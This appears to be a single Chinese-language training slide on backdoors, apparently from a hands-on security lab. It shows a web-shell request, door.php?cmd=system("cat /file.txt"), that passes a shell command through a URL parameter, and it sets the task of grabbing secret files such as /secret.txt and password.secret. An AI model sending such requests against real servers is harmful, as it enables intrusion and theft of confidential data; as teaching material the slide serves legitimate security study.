

# 後門 (Backdoor)
實作
door.php?cmd=system(“cat /file.txt”)

請抓出位於 /secret.txt 的機密資料
5487580.txt
password.secret
scandals.secret